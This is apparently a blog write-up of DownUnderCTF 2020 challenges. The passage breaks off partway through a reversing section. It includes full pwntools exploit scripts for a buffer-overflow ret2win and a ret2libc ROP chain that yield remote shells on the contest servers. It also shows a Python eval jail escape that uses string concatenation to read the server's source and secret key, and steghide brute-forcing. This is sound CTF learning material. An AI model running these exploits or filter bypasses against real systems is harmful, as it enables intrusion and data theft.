






This last weekend (more like Friday and Saturday, really) I participated in [DownUnderCTF 2020](https://downunderctf.com/) along with [CaptureTheFrancesinha](https://ctftime.org/team/111459), the CTF team of my student branch and the one I'm currently more engaged with. We managed to place 146th out of 1080 scoring teams worldwide, which was quite a great achievement! Our team scored 2130 points and I was the largest scorer (humble brag lol) with 1510.

These were the challenges I solved, whose solutions I will detail in this blog post:



For this CTF I started by focusing on the `pwn` challenges due to recently having learned much more about binary exploitation and wanting to test out my newly found skills!
This paid off as some techniques I had learned were useful for this CTF and I also had the right direction in some other challenges I was unable to solve (whose writeups I'll need to check out later!).

Later on, once I declared myself "stuck" on the remaining `pwn` challenges, I took a broad look at the rest of the categories and picked some that looked the simplest / most interesting to work on.
Several of them were too tricky for me (for example the crypto ones that my team hadn't solved - way too much math for me) but I still managed to get some more solves as the clocked ticked down!

The recently found knowledge was also applicable to some of the reversing challenges - this was based more on dynamic analysis of the software than exploiting it with buffer overflows per se.
However, the knowledge gained when trying to exploit programs for the typical buffer overflow vulnerabilities of program flow and understanding some assembly snippets also was very useful for this category!


## Challenge list

* [Shell this! (pwn) - 100 points](#Shell-this)
* [Return to what (pwn) - 200 points](#Return-to-what)
* [Addition (misc) - 200 points](#Addition)
* [Tim Tams (misc) - 273 points](#Tim-Tams)
* [On the spectrum (forensics) - 100 points](#On-the-spectrum)
* [Spot the Difference (forensics) - 327 points](#Spot-the-Difference)
* [Formatting (reversing) - 100 points](#Formatting)
* [Added protection (reversing) - 200 points](#Added-protection)
* [Survey (survey) - 10 points](#Survey)

## Shell this! (pwn) - 100 points {#Shell-this}

> Somebody told me that this program is vulnerable to something called remote code execution?
> 
> I'm not entirely sure what that is, but could you please figure it out for me?
> 
> nc chal.duc.tf 30002
> 
> Attached files:
> 
> * shellthis.c (sha256: 82c8a27640528e7dc0c907fcad549a3f184524e7da8911e5156b69432a8ee72c)
> * shellthis (sha256: af6d30df31f0093cce9a83ae7d414233624aa8cf23e0fd682edae057763ed2e8)

Funny thing to start this off: I hadn't even noticed that the source code was provided. I just dropped the binary into ghidra and looked at it like that.

From the title, I thought this would be a challenge where we would Buffer Overflow into our own shellcode. When looking at the source code (or ghidra as I did at the time) we can understand that the solution is much simpler:

```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Hmmmmm, a `gets` call and a function that doesn't get called which spawns a shell? 🤔🤔
This program is ripe for exploitation! Let's do a buffer overflow to overwrite the return address to go to the `get_shell` function!

```python
# exploit.py
from pwn import *
# 64 bit, NX set

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./shellthis')

def conn():
    if args.REMOTE:
        return remote("chal.duc.tf", 30002)
    else:
        return process()


r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

# Detecting EIP overrun
# payload = cyclic(1024)
# eip_offset = cyclic_find(0x6161616f)
eip_offset = 56

payload = flat(
    b'A'*eip_offset,
    elf.sym['get_shell']
)

r.recvline()
r.sendline(payload)

print(r.clean())
r.interactive()

r.close()
```

Initially, I detected the padding that would be necessary by sending a [De Brujin sequence (the linked post explains its usefulness for binary exploitation quite well)](https://ironstone.gitbook.io/notes/types/stack/de-bruijn-sequences) and using the attached GDB session to know the value that EIP would have when returning (when it `SEGFAULT`ed due to returning to our payload).

Afterwards we only need to send the padding and then overwrite the return address with the value of the `get_shell` function. Then we get a shell and just need to read `flag.txt`:

```
~/CTF/DownUnderCTF-2020/Pwn/Shell this! py(ctf)
miguel@miguel-xps$ python exploit.py REMOTE
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Shell this!/shellthis'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.duc.tf on port 30002: Done
b'Please tell me your name: '
[*] Switching to interactive mode
$ ls
flag.txt
shellthis
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

The fact that the NX bit was set (the stack is not executable) would also be a good way to stop thinking about shellcode and just use what is already provided! These kinds of challenges are usually known as `ret2win` since we only need to return into a "win" function.

## Return to what (pwn) - 200 points {#Return-to-what}

> This will show my friends!
> 
> nc chal.duc.tf 30003
> 
> Attached files:
> 
> * return-to-what (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

Given the task name I really suspected [ROP (Return-Oriented Programming)](https://en.wikipedia.org/wiki/Return-oriented_programming) would be necessary for this one. It seems like I was right :)
The given binary is 64bit and has NX enabled (thus removing the possibility of using shellcode straight away).

After checking the gadgets via `pwntools` and concluding that there weren't many, I started thinking about ret2libc (kind of a variation of ROP in which after knowing the libc adresses we ROP into its functions - being able to execute things like `system` or `execve` to get a shell).

Thus, I had my plan: I would ROP into the PLT entry of `puts` to call it and leak GOT addresses of libc functions in order to identify the correct libc version (using [libc.blukat.me](https://libc.blukat.me/)).
After knowing this, we can use [`pwninit`](https://github.com/io12/pwninit) to get a compatible linker to run the program and continue developing our exploit.
Now, we just need to leak the address of a libc function from the GOT again in order to know the libc base address (I'm assuming ASLR is enabled on the remote machine). Then, we can use that to ret2libc and get our shell!

```python
# exploit.py
from pwn import *
# 64 bit, NX set

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./return-to-what')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
ld = ELF('./ld-2.27.so')


def conn():
    if args.REMOTE:
        return remote("chal.duc.tf", 30003)
    else:
        return process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
        # return process()


r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

# Detecting EIP overrun
# payload = cyclic(1024)
# eip_offset = cyclic_find(0x6161616f)
eip_offset = 56

rop = ROP(elf)
rop.raw(b'A'*eip_offset)
rop.puts(elf.got['puts'])
rop.puts(elf.got['__libc_start_main'])
rop.vuln()

payload = rop.chain()

# Main has 2 messages, the "Today, we'll have a lesson in returns." and "Where would you like to return to?"
r.recvline()
r.recvline()

r.sendline(payload)

puts_leak_raw_data = r.recvline().rstrip()
print(puts_leak_raw_data)
# Concatenating two NUL bytes that `puts` probably "ate"
puts_leak = u64(puts_leak_raw_data + b'\x00\x00')
print(f"'puts' at {hex(puts_leak)}")

libc_start_main_leak_raw_data = r.recvline().rstrip()
print(libc_start_main_leak_raw_data)
libc_start_main_leak = u64(libc_start_main_leak_raw_data + b'\x00\x00')
print(f"'libc_start_main' at {hex(libc_start_main_leak)}")

# Confirmed via GDB but now have to confirm correct libc version via leaking the address of some functions
libc_base = puts_leak - libc.sym['puts']
libc.address = libc_base
print(f"Libc at {hex(libc.address)}")

# Clearing vuln's messages again since we returned to it
print(r.recvline())

# Don't forget to set the libc base address before creating the ROP object
libc_rop = ROP(libc)
binsh = next(libc.search(b'/bin/sh\x00'))
libc_rop.system(binsh)

payload = b'A'*eip_offset + libc_rop.chain()
r.sendline(payload)

print(r.clean())
r.interactive()

r.close()

```

[The libc version we got from the remote leak.](https://libc.blukat.me/?q=__libc_start_main%3Aab0%2Cputs%3A9c0)

The exploit code speaks for itself. I used `pwntools`'s ROP module to simplify the ROP exploit development significantly (due to the CTF being a time-restricted event) but I encourage whoever's learning about this technique to also do it "manually" by constructing the payloads yourselves. I did that in several other occasions and can confirm that it's a good way to better understand what goes on behind the scenes.

```
~/CTF/DownUnderCTF-2020/Pwn/Return to what py(ctf) !130
miguel@miguel-xps$ python exploit.py REMOTE
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
b'\xc0\xd9yF\xb6\x7f'
'puts' at 0x7fb64679d9c0
b'\xb0\xeasF\xb6\x7f'
'libc_start_main' at 0x7fb64673eab0
Libc at 0x7fb64671d000
b'Where would you like to return to?\n'
[*] Loading gadgets for '/home/miguel/CTF/DownUnderCTF-2020/Pwn/Return to what/libc6_2.27-3ubuntu1_amd64.so'
b''
[*] Switching to interactive mode
$ ls
flag.txt
return-to-what
$ whoami
whoami: cannot find name for user ID 1000: No such file or directory
$ id
uid=1000 gid=999 groups=999
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```

## Addition (misc) - 200 points {#Addition}

> Joe is aiming to become the next supreme coder by trying to make his code smaller and smaller. His most recent project is a simple calculator which he reckons is super secure because of the "filters" he has in place. However, he thinks that he knows more than everyone around him. Put Joe in his place and grab the flag.
> 
> https://chal.duc.tf:30302/

After opening the link, we reach a simple web page with the title "Joe's Supreme calculator":



After trying some calculations, I tried inputting hexadecimal numbers which were promptly converted into their decimal values.
This is a behaviour I recall being common with a python REPL! So I started targeting a python "jail".
One of my first successful attempts was `dir()` which showed some accessible variables.

I then started thinking of possible protections that were in place.
One of the simplest (that was the case in [FWordCTF2020's Directory Manager (Misc) challenge](/blog/fwordctf-2020-writeup#Directory-Manager)) is to simply blacklist a certain set of methods and modules that could be used by an attacker to reach the flag. A very simple workaround, and also the intended one for the mentioned challenge was to simply use string concatenation.

As such, I tried snooping around the program's global variables with `eval('glo'+'bals()')` (I prettified the output a lot, it was just a string without newlines in the website):

```
{
    '__name__': 'main',
    '__doc__': None,
    '__package__': '',
    '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fa11a78c580>,
    '__spec__': ModuleSpec(name='main',
	loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fa11a78c580>,
    	origin='./main.py'),
    '__file__': './main.py',
    '__cached__': './__pycache__/main.cpython-38.pyc',
    '__builtins__': {
	    '__name__': 'builtins',
	    '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.",
	    '__package__': '',
	    '__loader__': <class '_frozen_importlib.BuiltinImporter'>,
	    '__spec__': ModuleSpec(name='builtins',
		loader=<class '_frozen_importlib.BuiltinImporter'>),
	    '__build_class__': <built-in function __build_class__>,
	    '__import__': <built-in function __import__>,
	    'abs': <built-in function abs>,
	    'all': <built-in function all>,
	    'any': <built-in function any>,
	    'ascii': <built-in function ascii>,
	    'bin': <built-in function bin>,
	    'breakpoint': <built-in function breakpoint>,
	    'callable': <built-in function callable>,
	    'chr': <built-in function chr>,
	    'compile': <built-in function compile>,
	    'delattr': <built-in function delattr>,
	    'dir': <built-in function dir>,
	    'divmod': <built-in function divmod>,
	    'eval': <built-in function eval>,
	    'exec': <built-in function exec>,
	    'format': <built-in function format>,
	    'getattr': <built-in function getattr>,
	    'globals': <built-in function globals>,
	    'hasattr': <built-in function hasattr>,
	    'hash': <built-in function hash>,
	    'hex': <built-in function hex>,
	    'id': <built-in function id>,
	    'input': <built-in function input>,
	    'isinstance': <built-in function isinstance>,
	    'issubclass': <built-in function issubclass>,
	    'iter': <built-in function iter>,
	    'len': <built-in function len>,
	    'locals': <built-in function locals>,
	    'max': <built-in function max>,
	    'min': <built-in function min>,
	    'next': <built-in function next>,
	    'oct': <built-in function oct>,
	    'ord': <built-in function ord>,
	    'pow': <built-in function pow>,
	    'print': <built-in function print>,
	    'repr': <built-in function repr>,
	    'round': <built-in function round>,
	    'setattr': <built-in function setattr>,
	    'sorted': <built-in function sorted>,
	    'sum': <built-in function sum>,
	    'vars': <built-in function vars>,
	    'None': None,
	    'Ellipsis': Ellipsis,
	    'NotImplemented': NotImplemented,
	    'False': False,
	    'True': True,
	    'bool': <class 'bool'>,
	    'memoryview': <class 'memoryview'>,
	    'bytearray': <class 'bytearray'>,
	    'bytes': <class 'bytes'>,
	    'classmethod': <class 'classmethod'>,
	    'complex': <class 'complex'>,
	    'dict': <class 'dict'>,
	    'enumerate': <class 'enumerate'>,
	    'filter': <class 'filter'>,
	    'float': <class 'float'>,
	    'frozenset': <class 'frozenset'>,
	    'property': <class 'property'>,
	    'int': <class 'int'>,
	    'list': <class 'list'>,
	    'map': <class 'map'>,
	    'object': <class 'object'>,
	    'range': <class 'range'>,
	    'reversed': <class 'reversed'>,
	    'set': <class 'set'>,
	    'slice': <class 'slice'>,
	    'staticmethod': <class 'staticmethod'>,
	    'str': <class 'str'>,
	    'super': <class 'super'>,
	    'tuple': <class 'tuple'>,
	    'type': <class 'type'>,
	    'zip': <class 'zip'>,
	    '__debug__': True,
	    'BaseException': <class 'BaseException'>,
	    'Exception': <class 'Exception'>,
	    'TypeError': <class 'TypeError'>,
	    'StopAsyncIteration': <class 'StopAsyncIteration'>,
	    'StopIteration': <class 'StopIteration'>,
	    'GeneratorExit': <class 'GeneratorExit'>,
	    'SystemExit': <class 'SystemExit'>,
	    'KeyboardInterrupt': <class 'KeyboardInterrupt'>,
	    'ImportError': <class 'ImportError'>,
	    'ModuleNotFoundError': <class 'ModuleNotFoundError'>,
	    'OSError': <class 'OSError'>,
	    'EnvironmentError': <class 'OSError'>,
	    'IOError': <class 'OSError'>,
	    'EOFError': <class 'EOFError'>,
	    'RuntimeError': <class 'RuntimeError'>,
	    'RecursionError': <class 'RecursionError'>,
	    'NotImplementedError': <class 'NotImplementedError'>,
	    'NameError': <class 'NameError'>,
	    'UnboundLocalError': <class 'UnboundLocalError'>,
	    'AttributeError': <class 'AttributeError'>,
	    'SyntaxError': <class 'SyntaxError'>,
	    'IndentationError': <class 'IndentationError'>,
	    'TabError': <class 'TabError'>,
	    'LookupError': <class 'LookupError'>,
	    'IndexError': <class 'IndexError'>,
	    'KeyError': <class 'KeyError'>,
	    'ValueError': <class 'ValueError'>,
	    'UnicodeError': <class 'UnicodeError'>,
	    'UnicodeEncodeError': <class 'UnicodeEncodeError'>,
	    'UnicodeDecodeError': <class 'UnicodeDecodeError'>,
	    'UnicodeTranslateError': <class 'UnicodeTranslateError'>,
	    'AssertionError': <class 'AssertionError'>,
	    'ArithmeticError': <class 'ArithmeticError'>,
	    'FloatingPointError': <class 'FloatingPointError'>,
	    'OverflowError': <class 'OverflowError'>,
	    'ZeroDivisionError': <class 'ZeroDivisionError'>,
	    'SystemError': <class 'SystemError'>,
	    'ReferenceError': <class 'ReferenceError'>,
	    'MemoryError': <class 'MemoryError'>,
	    'BufferError': <class 'BufferError'>,
	    'Warning': <class 'Warning'>,
	    'UserWarning': <class 'UserWarning'>,
	    'DeprecationWarning': <class 'DeprecationWarning'>,
	    'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>,
	    'SyntaxWarning': <class 'SyntaxWarning'>,
	    'RuntimeWarning': <class 'RuntimeWarning'>,
	    'FutureWarning': <class 'FutureWarning'>,
	    'ImportWarning': <class 'ImportWarning'>,
	    'UnicodeWarning': <class 'UnicodeWarning'>,
	    'BytesWarning': <class 'BytesWarning'>,
	    'ResourceWarning': <class 'ResourceWarning'>,
	    'ConnectionError': <class 'ConnectionError'>,
	    'BlockingIOError': <class 'BlockingIOError'>,
	    'BrokenPipeError': <class 'BrokenPipeError'>,
	    'ChildProcessError': <class 'ChildProcessError'>,
	    'ConnectionAbortedError': <class 'ConnectionAbortedError'>,
	    'ConnectionRefusedError': <class 'ConnectionRefusedError'>,
	    'ConnectionResetError': <class 'ConnectionResetError'>,
	    'FileExistsError': <class 'FileExistsError'>,
	    'FileNotFoundError': <class 'FileNotFoundError'>,
	    'IsADirectoryError': <class 'IsADirectoryError'>,
	    'NotADirectoryError': <class 'NotADirectoryError'>,
	    'InterruptedError': <class 'InterruptedError'>,
	    'PermissionError': <class 'PermissionError'>,
	    'ProcessLookupError': <class 'ProcessLookupError'>,
	    'TimeoutError': <class 'TimeoutError'>,
	    'open': <built-in function open>,
	    'quit': Use quit() or Ctrl-D (i.e. EOF) to exit,
	    'exit': Use exit() or Ctrl-D (i.e. EOF) to exit,
	    'copyright': Copyright (c) 2001-2020 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved.,
	    'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information.,
	    'license': Type license() to see the full license text,
	    'help': Type help() for interactive help, or help(object) for help about object.
    },
    'FlaskForm': <class 'flask_wtf.form.FlaskForm'>,
    'Flask': <class 'flask.app.Flask'>,
    'render_template': <function render_template at 0x7fa1196460d0>,
    'request': <Request 'https://chal.duc.tf:30302/' [POST]>,
    'Form': <class 'wtforms.form.Form'>,
    'validators': <module 'wtforms.validators' from '/usr/local/lib/python3.8/site-packages/wtforms/validators.py'>,
    'StringField': <class 'wtforms.fields.core.StringField'>,
    'SubmitField': <class 'wtforms.fields.simple.SubmitField'>,
    'app': <Flask 'main'>,
    'blacklist': [
	    'import',
	    'os',
	    'sys',
	    ';',
	    'print',
	    '__import__',
	    'SECRET',
	    'KEY',
	    'app',
	    'open',
	    'globals'
    ],
    'maybe_not_maybe_this': 'HYPA HYPA',
    'maybe_this_maybe_not': 'DUCTF{3v4L_1s_D4ng3r0u5}',
    'CalculatorInput': <class 'main.CalculatorInput'>,
    'mainpage': <function mainpage at 0x7fa11a7b9040>
}
```

From all this, we can highlight a couple things - the flag in the `maybe_this_maybe_not` variable, and the blacklist for the program's input in the `blacklist` variable.
After submitting the flag I took to leaking the program's source code, just for the heck of it (via `eval('o'+'pen(__file__).read()')`):

```python
from flask_wtf import FlaskForm
from flask import Flask, render_template, request
from wtforms import Form, validators, StringField, SubmitField

app = Flask(__name__)
app.config['SECRET_KEY'] = '7d441f27d441f27567d441f2b6176a'
blacklist = ["import", "os", "sys", ";", "print",
             "__import__", "SECRET", "KEY", "app", "open", "globals"]
maybe_not_maybe_this = "HYPA HYPA"
maybe_this_maybe_not = "DUCTF{3v4L_1s_D4ng3r0u5}"


class CalculatorInput(FlaskForm):
    user_input = StringField('Calculation', validators=[
                             validators.DataRequired()])
    submit = SubmitField('Calculate for me')
    @app.route("/", methods=["GET", "POST"])
    def mainpage():
        form = CalculatorInput() out = ""
        if request.method == 'POST':
            user_input = request.form['user_input']
            for items in blacklist:
                if items in user_input:
                    out = "Nice try....NOT. If you want to break my code you need to try harder"
                else:
                    try:
                        # Pass the users input in a eval function so that I dont have to write a lot of code and worry about doing the calculation myself
                        out = eval(user_input)
                    except:
                        out = "You caused an error... because my friend told me showing errors to hackers can be problematic I am not going to tell you what you broke"
                        return render_template("calculator.html", form=form, out=out)
                    if __name__ == "__main__":
                        app.run(host="0.0.0.0", debug=True, port=6969)

```

So that makes it clear exactly how we could work around the restrictions in place! The flag is `DUCTF{3v4L_1s_D4ng3r0u5}`, and it can be reached directly with something as simple as typing in the variable name, now that we know it:



## Tim Tams (misc) - 273 points {#Tim-Tams}

> When I eat too many Tim Tams, I get rather slow!
> 
> WARNING You will want to turn down your audio for this one!
> 
> Download: https://storage.googleapis.com/files.duc.tf/uploads/Clive.wav
> 
> File Hash (SHA256): 4C1CC12D002956A83E168CA650B776B55AAC36F2131D0DF617BE7D55DBEF93D1

The description and previous challenges I did in other CTFs made me "guess" the solution straight away - [SSTV](https://en.wikipedia.org/wiki/Slow-scan_television)!

Thus, using the [typical article](https://ourcodeworld.com/articles/read/956/how-to-convert-decode-a-slow-scan-television-transmissions-sstv-audio-file-to-images-using-qsstv-in-ubuntu-18-04), it was simple to decode it:


I initially tried the Robot36 app for Android, but some noise was getting picked up right at the beginning, which made the flag incomprehensible, sadly:


The text on the image was `QHPGS{UHZOYR_Z3Z3_1BEQ}`, which after ROT13 resulted in `DUCTF{HUMBLE_M3M3_1ORD}`.

## On the spectrum (forensics) - 100 points {#On-the-spectrum}

> My friend has been sending me lots of WAV files, I think he is trying to communicate with me, what is the message he sent?
> 
> Author: scsc
> 
> Attached files:
> 
> * message_1.wav (sha256: 069dacbd6d6d5ed9c0228a6f94bbbec4086bcf70a4eb7a150f3be0e09862b5ed)
> 

From the name I also had a good hunch for what the solution of this challenge would be. I booted up audacity, opened the file and switched to spectrogram view:




Bingo! The flag is `DUCTF{m4by3_n0t_s0_h1dd3n}`!

## Spot the Difference (forensics) - 327 points {#Spot-the-Difference}

> An employee's files have been captured by the first responders. The suspect has been accused of using images to leak confidential infomation, steghide has been authorised to decrypt any images for evidence!
> 
> Files: https://storage.googleapis.com/files.duc.tf/uploads/SpotTheDifference/Publish.zip (sha256: be6fd22e658b51124da5a608cc50e5fdc6698772a024cfe4dd9fb393f6ee5227)

After unzipping `Publish.zip` we get a set of directories with some files:

```
Publish
├── .config
│   ├── Reminder.png
│   └── secret
│       ├── 1 ...
├── badfiles
│   ├── ...
│   ├── 010bd1036defc5c5df774b48ad86f346.jpg
│   ├── 02f593dbfa81889d46d16ab389f23c8f.jpg
│   ├── 0501b26c239ede5efeb97138e5616cd8.jpg
│   ├── ...
│   └── <lots of jpg files here>
├── Desktop
│   ├── (2) UTS Cyber Security Society - Facebook.url
│   ├── DownUnderCTF.url
│   └── UTS Cyber Security Society.url
├── Downloads
│   └── DownUnderCTF _ FAQs.pdf
├── Images
│   ├── 1onp4t.jpg
│   ├── download.jfif
│   ├── NPC_wojak_meme.png
│   └── p072ms6r.jpg
├── Messages
│   └── Annotation 2020-09-10 184734.png
├── Music
│   └── EhD-T_UUwAAYjx1.jfif
└── Videos
    └── tenor.gif

7 directories, 212 files
```

The `.config` directory had a `secret` directory inside of it. In it, there were other directories numbered 1 thru 40, each with .txt files also with names 1 thru 40.
Certainly one of these must be different! Using `find . -type f -exec cat {} \;` we can see that the files have kind of random strings, and one stands out as being much smaller than the rest.
This file's contents were `CjEyMzRJc0FTZWN1cmVQYXNzd29yZA==` which after base64 decoding results in `1234IsASecurePassword`.

Given the challenge description mentioning `steghide`, this is likely the password to extracting the file in the "secret" image.

Only after reaching this point did I remember to take a look at `Reminder.png` (I'm a CLI guy, kind of forget about visual things like images apparently).
Despite the extension, the file was being identified as a zip file by `file`, and `feh` would not open the image.
I opened up the image in `hexeditor -b` and confirmed that the magic bytes were wrong... But only the first 4! The following 4 were correct according to the PNG spec.
As such, this seemed intentional. After correcting this, the image would now open correctly:



So this confirms we are going in the right direction! Sadly this does not provide any new information, though.

Now that we have a password, we only need to find the right file to decode things from!
The bunch of `jpg`s in `badfiles/` seems like a good place to hide something, especially since the files all look very similar, like colored static.
Well, nothing like trying every single one of them with a bash one-liner:

```
root@kali:~/ctfs/DownUnder2020/Publish/badfiles# for file in $(ls -1); do echo "Testing $file"; steghide extract -sf "$file" -p 1234IsASecurePassword; done
...
Testing 9dee0d00292518da5279259ed6518506.jpg
steghide: could not extract any data with that passphrase!
Testing 9fcbfc94a491f7968004bd12de6cd10d.jpg
steghide: could not extract any data with that passphrase!
Testing a196bd78791f2053a68d9187bcf3a2b5.jpg
steghide: could not extract any data with that passphrase!
Testing a1eaa5ed9702aff29ef41ae5f6f2846e.jpg
steghide: could not extract any data with that passphrase!
Testing a1f90f1c3388b06aeac0990ce023565b.jpg
wrote extracted data to "SecretMessage.txt".
Testing a2b1ade33203ca90855ef04dbbbe93b2.jpg
steghide: could not extract any data with that passphrase!
Testing a2f0d46edba1ed6ee5ad95a936e2db7f.jpg
steghide: could not extract any data with that passphrase!
Testing a3426a55fb3bb81388d3b74ea2575e81.jpg
steghide: could not extract any data with that passphrase!
Testing a5ca6c176a890c11a45d5e86cf151864.jpg
steghide: could not extract any data with that passphrase!
Testing aa09f97e6e8b87a6db29e190e2a3a4af.jpg
...
root@kali:~/ctfs/DownUnder2020/Publish/badfiles# cat SecretMessage.txt
DUCTF{m0r3_th4n_M33ts_th3_ey3}
```

And there we have it! We extracted a text file from the image, and it contained the flag!

## Formatting (reversing) - 100 points {#Formatting}

> Its really easy, I promise
> 
> Files: formatting

After using `ghidra` to start disassembling the binary, I noticed that the flag's value was written directly to the buffer.

```c
undefined8 main(void)
{
  int iVar1;
  char buf [17];
  undefined left_curly;
  undefined nul;
  long local_28;
  undefined4 l;
  undefined4 f;

  f = 0x66;
  l = 0x6c;
  nul = 0;
  left_curly = (undefined)brac1;
